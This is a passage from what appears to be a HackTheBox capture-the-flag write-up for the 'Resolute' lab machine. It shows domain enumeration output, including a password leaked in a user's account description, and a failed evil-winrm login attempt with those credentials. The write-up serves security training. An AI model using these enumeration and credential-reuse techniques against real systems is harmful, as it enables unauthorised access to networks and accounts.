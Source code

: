 ```
user:[claude] rid:[0x19d9]                                                                             
user:[melanie] rid:[0x2775]                     
user:[zach] rid:[0x2776]                   
user:[simon] rid:[0x2777]               
user:[naoki] rid:[0x2778]
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko Name: Marko Novak       Desc: Account created. Password set to Welcome123!
 [+] Found domain(s):
        [+] MEGABANK                                   
        [+] Builtin
[+] Password Info for Domain: MEGABANK        
        [+] Minimum password length: 7        
        [+] Password history length: 24
        [+] Maximum password age: Not Set                                                              
        [+] Password Complexity Flags: 000000                                                          
                [+] Domain Refuse Password Change: 0                                                   
                [+] Domain Password Store Cleartext: 0                                                 
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0                                                  
                [+] Domain Password Complex: 0                                                         
        [+] Minimum password age: 1 day 4 minutes                                                      
        [+] Reset Account Lockout Counter: 30 minutes
        [+] Locked Account Duration: 30 minutes                                                        
        [+] Account Lockout Threshold: None                                                            
        [+] Forced Log off Time: Not Set
```

Combining the information with the results of the nmap scan, we can summarize that so far we know that: the computer's name is RESOLUTE, with the domain MEGABANK.LOCAL. The computer is a Windows Server 2016, and is probably a domain controller. SMB signing is also turned on, so a NTLM-relay attack won't be a potential attack vector. There is a lack of a lockout policy for incorrect password inputs. Additionally, there seems to be an interesting leak of credentials left on the description of the marko user. If marko is in the Remote Desktop User group, we can log into the computer through the WinRM service using the tool `evil-winrm`

```
┌──(root💀kali)-[/home/kali/HackTheBox/Resolute]
└─# evil-winrm -i 10.10.10.169 -u 'mark' -p 'Welcome123!'      

Evil-WinRM shell v3.3
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
Error: Exiting with code 1
```
